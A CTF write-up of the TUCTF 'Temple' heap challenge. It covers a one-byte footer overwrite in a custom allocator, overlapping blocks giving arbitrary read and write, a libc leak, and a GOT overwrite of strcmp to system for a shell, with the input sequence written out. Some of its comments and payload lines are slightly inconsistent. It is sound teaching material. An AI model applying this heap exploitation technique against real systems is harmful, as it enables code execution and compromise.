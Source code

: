 # Temple

500 points

49 solves

>Have you come to gain wisdom at the temple?
>
>nc temple.tuctf.com 4343
>
>UPDATE:
>the temple binary has been updated. Please redownload.
>
>temple - md5: 8e61e448093f96043512bd3580223124
>
>libc.so.6 - md5: 8548e4731a83e6ed3fc167633d28c21f


It seems like we are going to need to corrupt the heap, since we are given the memory manager. So diving into `mm.c`, we notice that the heap is essentially structured as a flat list of blocks. Each block has a 8-byte header and footer. The footer and header are both essentially `allocSize | allocUsed`, where `allocUsed` is a bit for whether the block is in use or free. When an allocation is requested, it looks for the first free block of sufficient size. If the block is larger than requested, the remaining free space is split off into a new smaller free block. If there is no free blocks then `sbrk` is used to increase the heap space to create one.

We have a 1-byte overwrite past the payload in each allocation block which lets us overwrite the block's footer. Since the footer is little-endian this means we overwrite the used bit and the least significant byte of the size field. The footer is used when traversing the heap block list backwards, namely in `coalesce` which is used upon freeing. Specifically, it looks at the size of the previous block and subtracts it from the current block's pointer to calculate the pointer for the start of the previous block. When a block is freed and the previous block has a corrupted footer, given that the previous block was less than 0x100 bytes long, it believes that the previous block is 0 bytes long and subtracts 0 from the current block's address. As a result the calculated pointer to the start of the previous block is equal to the pointer of the current block. This ends up creating a coalesced free block that is too big and overlaps with the next block. Then, we could allocate a new block which fills this overlapped free block, letting us corrupt the following block.

So the game plan is to massage the heap using `give_wisdom`, then corrupt a block to let us get R/W access to arbitrary address. We use `modify_wisdom` to write and `take_wisdom` to read. Unfortunately, `take_wisdom` frees the wisdom which uncorrupts the heap, so we just need to setup the heap again. The heap will be structured like this before a read or write operation:

```
Low addresses  ^^^
00 Wisdom 8  metadata header
08 Wisdom 8  metadata text length
10 Wisdom 8  metadata text pointer
18 Wisdom 8  metadata name length
20 Wisdom 8  metadata name pointer
28 Wisdom 8  metadata footer
30 Wisdom 8  text header
38 Wisdom 8  text
40 Wisdom 8  text
48 Wisdom 8  text footer (clobbered to 0)
50 Wisdom 9  metadata header
58 Wisdom 9  metadata text length
60 Wisdom 9  metadata text pointer
68 Wisdom 9  metadata name length
70 Wisdom 9  metadata name pointer
78 Wisdom 9  metadata footer
80 Wisdom 9  text header
88 Wisdom 9  text
90 Wisdom 9  text
98 Wisdom 9  text footer (clobbered to 0)
a0 Wisdom 10 metadata header
a8 Wisdom 10 metadata text length
b0 Wisdom 10 metadata text pointer
b8 Wisdom 10 metadata name length
c0 Wisdom 10 metadata name pointer
c8 Wisdom 10 metadata footer
d0 Wisdom 10 text header
d8 Wisdom 10 text
e0 Wisdom 10 text
e8 Wisdom 10 text footer (clobbered to 0)
High addresses VVV
```

Then, after freeing Wisdom 8 and allocating Wisdom 11 in the hollowed, overlapping block:

```
Low addresses  ^^^
00 Wisdom 8  metadata header
08 Wisdom 8  metadata text length
10 Wisdom 8  metadata text pointer
18 Wisdom 8  metadata name length
20 Wisdom 8  metadata name pointer
28 Wisdom 8  metadata footer
30 Wisdom 8  text header
38 Wisdom 8  text
40 Wisdom 8  text
48 Wisdom 8  text footer (clobbered to 0)
50 Wisdom 11 metadata header
58 Wisdom 11 metadata text length
60 Wisdom 11 metadata text pointer
68 Wisdom 11 metadata name length
70 Wisdom 11 metadata name pointer
78 Wisdom 11 metadata footer
80 Wisdom 11 text header
88 Wisdom 11 text
90 Wisdom 11 text
98 Wisdom 11 text / Wisdom 10 metadata header
a0 Wisdom 11 text / Wisdom 10 metadata text length
a8 Wisdom 11 text / Wisdom 10 metadata text pointer
b0 Wisdom 11 text / Wisdom 10 metadata name length
b8 Wisdom 11 text / Wisdom 10 metadata name pointer
c0 Wisdom 11 text / Wisdom 10 metadata footer
c8 Wisdom 11 text footer (clobbered to 0)
d0 Wisdom 10 text header
d8 Wisdom 10 text
e0 Wisdom 10 text
e8 Wisdom 10 text footer (clobbered to 0)
High addresses VVV
```

So we have control over the Wisdom 10 metadata (pointers and lengths) and block header through Wisdom 11. So by doing operations on the corrupted Wisdom 10, we can get memory control.

Now we need to get ahold of control flow, which we do through overwriting GOT entries. We notice `strcmp` is called in `free_wisdom`, and the first parameter is the name pointer, which we control. So we first need to leak `libc` base using a read, then create a corrupted wisdom with the name pointing to `/bin/sh` and the text pointing to `strcmp`'s entry in the GOT. Then we do a write using the corrupted text pointer to detour `strcmp` to `system`.

So the input would look like this (we use `0123456789ABCDE` because it also has a trailing newline for a total of 16 bytes):
```
# Massage the heap
2 # Wisdom 8
16
0123456789ABCDE
2 # Wisdom 9
16
0123456789ABCDE
2 # Wisdom 10
16
0123456789ABCDE
1 # Free Wisdom 9
9
2 # Wisdom 11, corrupting Wisdom 10
64
('\x00\x00\x00\x00\x00\x00\x00\x00' * 4) + '\x08\x00\x00\x00\x00\x00\x00\x00' + packaddr(0x603038) + '\x00\x00\x00\x00\x00\x00\x00\x00' + packaddr(0x603038) # Name pointer doesn't matter as long as reading doesn't segfault
```
This leaks `libc`. Next:
```
# Massage the heap
2 # Wisdom 12
16
0123456789ABCDE
2 # Wisdom 13
16
0123456789ABCDE
2 # Wisdom 14
16
0123456789ABCDE
1 # Free Wisdom 13
9
2 # Wisdom 15, corrupting Wisdom 14
64
'\x00\x00\x00\x00\x00\x00\x00\x00' * 4) + '\x08\x00\x00\x00\x00\x00\x00\x00' + '\x70\x30\x60\x00\x00\x00\x00\x00' + packaddr(len('/bin/sh')) + packaddr(binsh)
3 # Overwrite strcmp to system in GOT, using corrupted Wisdom 14
14
packaddr(system)
1 # Free Wisdom 10 to trigger strcmp
14
```
And with that we have a shell. So then we just `cat flag.txt`.

`TUCTF{0n3_Byt3_0v3rwr1t3_Ac0lyt3}`

